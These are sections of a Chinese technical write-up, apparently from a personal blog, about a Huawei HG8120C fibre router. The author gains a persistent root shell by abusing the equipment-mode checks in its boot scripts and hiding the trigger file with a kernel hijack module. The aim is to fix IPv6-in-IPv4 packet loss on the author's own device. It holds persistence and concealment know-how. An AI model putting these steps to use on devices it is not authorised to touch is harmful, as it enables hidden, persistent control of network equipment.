实现自启动最容易想到的办法就是修改/etc/rc.d下的启动脚本，添加启动命令到其中。虽然最容易想到，但并不代表最容易实现。 首先/etc/rc.d位于根文件系统中，而根文件系统使用的是squashfs只读文件系统。其次修改根文件系统风险比较高，不能fail safe，一旦根文件系统损坏，设备可能就变砖， 对于在线正在使用中的网络设备，高风险的变砖情况是不可接受的，一旦变砖网络和电话就都瘫痪了。 其实，HG8120C这个设备实现了双系统，但目前不知道如何操作才能保证在修改一个系统的根文件系统导致启动失败的情况下，如何自动或手动切换到另一个正常系统。 综上所述，我需要找到一个低风险，fail safe的添加自启动的方法。 唯一符合这样条件的自启动方案，就是将启动命令文件存储在/mnt/jffs2路径下，诱导某个系统程序在启动过程中来执行之，这样可以避免损坏rootfs。
Next: 持久 VS 保持系统原有行为, Previous: 如何实现自启动, Up: HG8120C 持久 root shell 及完美解决 IPv6 丢包 [Contents]
跟随系统的启动脚本流程，仔细检查每个可能的切入点。 最先发现可能的切入点在/etc/rc.d/rc.start/1.sdk_init.sh的第76行，如果文件/mnt/jffs2/Equip.sh存在，就运行/bin/Equip.sh，运行成功之后就退出。
76 [ -f /mnt/jffs2/Equip.sh ] && /bin/Equip.sh && exit
继续查看/bin/Equip.sh，发现文件最后一行会执行/mnt/jffs2路径下的某个程序：
/mnt/jffs2/equipment/bin/aging &
乍一看，这个看似可以被利用来执行我们指定的程序/mnt/jffs2/equipment/bin/aging， 但是对比1.sdk_init.sh后续的启动命令和/bin/Equip.sh发现有太多差异，恐怕启动后设备功能不正常。 所以只能当作最后的救命稻草，只有在找不到其他更好的切入点时才会使用。继续检查1.sdk_init.sh，426行代码如下：
426 #start for hw_ldsp_cfg进行单板差异化配置，必须放在前面启动 427 iLoop=0 428 echo -n "Start ldsp_user..." 429 if [ -e /bin/hw_ldsp_cfg ] 430 then 431 hw_ldsp_cfg & 432 while [ $iLoop -lt 50 ] && [ ! -e /var/hw_ldsp_tmp.txt ] 433 do 434 #echo $iLoop 435 iLoop=$(( $iLoop + 1 )) 436 sleep 0.1 437 done 438 439 if [ -e /var/hw_ldsp_tmp.txt ] 440 then 441 rm -rf /var/hw_ldsp_tmp.txt 442 fi 443 fi
这几行代码的意思是执行/bin/hw_ldsp_cfg并等待某个标志文件的创建，等待超时5秒。 分析/bin/hw_ldsp_cfg发现，如果/mnt/jffs2/Equip.sh和/mnt/jffs2/flashtest两个文件同时都存在的情况下， 会执行这个/mnt/jffs2/equipment/bin/prbstest程序，这三个文件都位于/mnt/jffs2路径下，都能被我们控制， 同时也没有改变1.sdk_init.sh中后续的正常启动流程，所以这是一个很好的候选者。 利用/bin/hw_ldsp_cfg来执行/mnt/jffs2/equipment/bin/prbstest需要满足的两个条件， 其中一个是/mnt/jffs2/Equip.sh，而这个文件存在表明设备处于“装备模式”，grep后发现系统中很多程序在“装备模式”下， 行为都会发生改变，这会增加太多的不确定性，所以当我们利用/mnt/jffs2/Equip.sh启动我们的程序后，需要将此文件删除， 尽可能保持系统原来的行为。同时也注意到/mnt/jffs2/Equip.sh也是上面我们最后救命稻草的启动条件，也就是说如果文件存在， 启动流程压根就不会走到1.sdk_init.sh的426行，该如何解决这个冲突呢？hw_ldsp_cfg是elf文件，使用open系统调用检查文件的存在性， 而1.sdk_ini.sh76行使用shell脚本的[ -f /mnt/jffs2/Equip.sh]来测试存在并且是普通文件。“普通文件”这个条件比单纯的系统调用open更加严格， 对设备文件等特殊文件来说[ -f ... ]会失败，但open调用不会，所以如果在路径/mnt/jffs2/Equip.sh创建一个设备文件或管道等非普通文件， 就可以达到我们的目的。 上述利用看起来能够完美工作，即不改变额外的系统原有行为，也达到了启动我们程序的目的。 确实很完美，但只能完美工作一次，第二次设备重启后就不会工作了，因为为了尽可能保持系统原有行为，/mnt/jffs2/Equip.sh已经被我们删除了，避免启用设备的“装备模式”行为。
Next: 完整流程, Previous: 寻找可能被诱导的程序, Up: HG8120C 持久 root shell 及完美解决 IPv6 丢包 [Contents]
自启动要持久，特殊文件/mnt/jffs2/Equip.sh就必须保留在ubifs文件系统上， 保证设备重启后继续存在，但要保持系统原有行为就又必须使得/mnt/jffs2/Equip.sh不存在， 设备不处于“装备模式”，两者完全对立。想到的办法就是当我们的程序运行起来后，插入一个内核模块， 劫持对ubifs文件系统的访问，将/mnt/jffs2/Equip.sh隐藏起来，但实际文件还存在， 重启后到插入我们的劫持模块前文件是可见的，这样便能使得“持久”和“保持系统原有行为”很好的共存了。 详细可参考劫持模块源代码hijack.c。
Next: 总结, Previous: 持久 VS 保持系统原有行为, Up: HG8120C 持久 root shell 及完美解决 IPv6 丢包 [Contents]
1. 创建符号链接/mnt/jffs2/Equip.sh，将其指向设备文件/dev/mtd2ro，这样保证[ -f /mnt/jffs2/Equip.sh]失败。
2. 创建空文件/mnt/jffs2/flashtest。
3. 创建自启动文件/mnt/jffss/equipment/bin/prbstest，在其中实现：
(1) 检查failsafe文件是否存在，如果存在立即退出，保证如果因为插入hijack劫持模块或卸载模块导致系统重启后不再继续我们的自启动，打破重启循环。
(2) 创建failsafe文件。
(3) 插入劫持模块hijack.ko，用于中断符号链接/mnt/jffs2/Equip.sh的follow link，保证open等系统调用失败，保持原有系统行为。
(4) 移除l3sfwd_ipv6，rawip_adpt和l3sfwd三个模块，解决IPv6-in-IPv4丢包问题。
(5) 启动dropbear，实现持久root shell。
(6) 启动正常，移除failsafe文件，保证下次重启后自启动继续得到执行。
Previous: 完整流程, Up: HG8120C 持久 root shell 及完美解决 IPv6 丢包 [Contents]
至此，HG8120C ONT上IPv6-in-IPv4丢包问题算是正式完美解决了， 由于是在线设备，所以一切操作都选择了风险较小的做法，而不是高风险直接修改rootfs的方法，保证fail safe，保证不损坏设备， 网络和电话功能正常，额外还收获持久的设备root访问权限。
关于自启动逻辑中的fail safe，实际重启测试中， 未发现插入或移除内核模块导致重启的情况，但是还是以防万一，毕竟小心行得万年船， 避免任何不必要的风险。